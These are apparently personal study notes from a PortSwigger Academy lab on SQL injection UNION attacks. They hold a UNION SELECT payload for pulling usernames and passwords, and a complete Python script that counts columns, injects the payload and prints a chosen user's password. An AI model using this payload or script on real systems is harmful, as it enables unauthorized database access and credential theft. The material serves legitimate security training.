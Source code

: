 # Retrieving data in an UNION attack
---
- When you have [[2. Determining columns required in an UNION attack|determined]] the number of columns returned by the original query.
- And found which [[3. Finding columns to inject in UNION attack|columns]] can hold _string data_, you are in a position to retrieve interesting data:

Suppose that:
- The original query returns two columns, both of which can hold string data.
- The injection point is a quoted string within the `WHERE` clause.
- The database contains a table called `users` with the columns `username` and `password`.

In the situation, you can retrieve the contents of the `users` table by submitting the input:
```sql
' UNION SELECT username, password FROM users--
```

> [!note]
> _From: PortSwigger Academy_
> The crucial information needed to perform this attack is that there is a table called `users` with two columns called `username` and `password`.
> Without this information, you would be left trying to guess the names of tables and columns.
> In  fact, _all modern databases provide ways of examining the database structure_, to determine what tables and columns it contains.

# Lab: SQL injection UNION attack, retrieving data from other tables
---
1. first, I need to determined 'how many columns' for the injection.
2. by using `ORDER BY`, I found its hit at `ORDER BY 3`
3. meaning, there are `2` columns.
4. then, using the payload `' UNION SELECT NULL,NULL`.
5. hits every columns and put the payload given. _above_
6. `' UNION SELECT username,password FROM users--` (_2 tabels "username","password"_)

```python
#!/usr/bin/env python3
# sqli-union3.py
import requests
import sys
from bs4 import BeautifulSoup

# Debugging
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

def get_col(url):
    for i in range(1,10):
        sqli = f"' ORDER BY {i}--"
        req = requests.get(url+sqli, verify=False, proxies=proxies)
        if "Internal Server Error" in req.text:
            return i-1
        i = i+1
    return False

def get_user(url, username):
    sqli = "' UNION SELECT username, password FROM users--"
    req = requests.get(url+sqli, verify=False, proxies=proxies)
    try:
        if username in req.text:
            print("[-] Trying to inject the payload...")
            print("[-] [{}]".format(sqli))
            soup = BeautifulSoup(req.text, 'html.parser')
            password = soup.body.find(string=username).parent.findNext('td').contents[0]
            print("[-] Found the [{}] password...".format(username))
            print("[-] The [{}] password is [{}]...".format(username, password))
            return True
        return False
    except AttributeError:
        print(f"[-] Can't find the [{username}] user...")


if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        username = sys.argv[2].strip()
    except IndexError:
        print("[-] Usage: {} <url> <username>".format(sys.argv[0]))
        print("[-] Example: {} http://example.com administrator".format(sys.argv[0]))
        sys.exit(1)

    print("[-] Figuring out number of columns...")
    num_col = get_col(url)
    if num_col:
        print("[-] The number of columns is [{}]...".format(num_col))
        if not get_user(url, username):
            print(f"[-] Can't find the [{username}] user...")
    else:
        print("[-] SQLi UNION not successful!")
```